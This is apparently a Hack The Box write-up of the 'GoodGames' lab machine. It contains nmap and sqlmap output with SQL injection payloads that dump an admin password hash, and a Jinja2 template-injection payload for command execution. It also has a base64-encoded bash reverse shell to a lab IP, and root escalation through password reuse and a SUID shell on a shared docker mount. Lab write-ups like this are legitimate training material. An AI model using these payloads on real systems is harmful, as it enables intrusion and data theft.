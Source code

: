 # User
Nmap
```
└─$ nmap -sCV -p- 10.129.226.138                                                                                                                                                                                                    
Nmap scan report for 10.129.226.138 
Host is up (0.019s latency). 
Not shown: 65534 closed ports 
PORT   STATE SERVICE  VERSION 
80/tcp open  ssl/http Werkzeug/2.0.2 Python/3.9.2 
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2 
|_http-title: GoodGames | Community and Store 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 
Nmap done: 1 IP address (1 host up) scanned in 441.90 second
```
Time based blind sql injection in sign in page

![image](https://user-images.githubusercontent.com/87831546/142666137-ceea7690-cae8-4822-bc26-9b876198f1cf.png)

```log
$ sqlmap -u http://goodgames.htb/login --data="email=a%40a.a&password=a" -D main -T user -dump

[*] starting @ 13:00:46 /2021-11-20/

[13:00:47] [INFO] resuming back-end DBMS 'mysql' 
[13:00:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=a@a.a' AND (SELECT 6708 FROM (SELECT(SLEEP(5)))hpPZ) AND 'VYTZ'='VYTZ&password=a

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: email=a@a.a' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7162627671,0x69676b6673706955474a69524d724968636c576a65614b6c704b454745665a564242466c55717a57,0x7171787671)-- -&password=a
---
[13:00:47] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[13:00:47] [INFO] fetching columns for table 'user' in database 'main'
got a refresh intent (redirect like response common to login pages) to '/profile'. Do you want to apply it from now on? [Y/n] n
[13:00:50] [INFO] fetching entries for table 'user' in database 'main'
[13:00:50] [INFO] recognized possible password hashes in column '`password`'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: main
Table: user
[1 entry]
+------+---------------------+--------+----------------------------------+
| id   | email               | name   | password                         |
+------+---------------------+--------+----------------------------------+
| 1    | admin@goodgames.htb | admin  | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+------+---------------------+--------+----------------------------------+
```

Dump the users table and we find admin credentials
```
admin@goodgames.htb
2b22337f218b2d82dfc3b6f77e7cb8ec -> superadministrator
```

Crack the hash and logging into admin account and clicking on the settings feature we find subdomain:
```
internal-administration
```
![image](https://user-images.githubusercontent.com/87831546/142666394-11ee96c4-64db-474f-84a0-b04c1596f3c0.png)

Add to /etc/hosts

![image](https://user-images.githubusercontent.com/87831546/142666449-b32e99e2-1e05-436b-80a5-0687144c6b03.png)

Login with 
```
admin
superadministrator
```
![image](https://user-images.githubusercontent.com/87831546/142666482-c888bc72-307e-45ac-a17e-272420a7c995.png)

Flask application and SSTI in the Full Name field
![image](https://user-images.githubusercontent.com/87831546/142666543-8ccb3f45-0888-4244-a549-2cfcd97ec2a0.png)

Command execution through SSTI:
```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
```
Get reverse shell by base64 encoding bash reverse shell then piping to base64 decode and then piped to bash
```
bash -i >& /dev/tcp/10.10.14.42/4242 0>&1
```
```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40Mi8xMjM0IDA+JjE= | base64 -d | bash').read() }}
```
```
HTB{7h4T_w45_Tr1cKy_1_D4r3_54y}
```

# Root
So scanning the docker host machine on 172.19.0.1 reveals it has ssh open
We can connect to that using the known username of `augustus` which is the name of the users home dir that the flag is in
Using the same password as before `superadministrator`
```
ssh augustus@172.19.0.1
```

Going back to the docker container we can copy sh over into the users home as we know that is shared with the host machine.
We can then use `chmod +s` to set the suid bit allowing users that have access to the file to run it as root

Connecting to the host as the user we now have the suid binary to run which gives us a root shell, then `cat /root/root.txt`.
```
HTB{M0un73d_F1l3_Sy57eM5_4r3_DaNg3R0uS}
```
